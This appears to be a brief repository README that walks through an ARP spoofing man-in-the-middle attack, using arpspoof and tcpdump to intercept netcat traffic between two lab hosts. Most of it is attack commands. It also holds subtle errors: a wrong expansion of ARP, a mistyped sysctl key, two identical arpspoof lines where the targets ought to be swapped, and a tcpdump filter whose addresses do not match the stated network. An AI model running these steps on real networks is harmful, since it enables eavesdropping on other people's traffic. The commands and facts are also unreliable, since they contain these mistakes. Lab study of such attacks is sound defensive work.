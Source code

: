 # ARP (Address Resource Protocol) spoofing and sniffing

## Network

* target A - 192.168.0.2
* target B - 192.168.0.3
* attacker - 192.168.0.7

## Tools on the attacker:
* dsniff -> arpspoof
* tcpdump

## Prerequisites

Let's assume target A talks to target B via netcat:
* Target B listens with `nc -l 5555`.
* Target A connects with `nc 192.168.0.3 5555`

IP forwarding is enabled on the middleman machine with either:
* `net.ip4.ip_forward=1` in `/etc/sysctl.conf`
* `sysctl -w net.ipv4.ip_forward=1`
* `echo 1 > /proc/sys/net/ipv4/ip_forward`

IP forwarding setting must be followed by either a `service network restart` or a **reboot**.

## Attack steps

* middleman spoofs ARP from A to B: `arpspoof -i eth0 -t 192.168.0.2 -r 192.168.0.3`
* middleman spoofs ARP from B to A: `arpspoof -i eth0 -t 192.168.0.2 -r 192.168.0.3`
* middleman starts sniffing TCP packets: `tcpdump -A -i eth0 ip src 172.17.0.3 and dst 172.17.0.4 and port 5555`
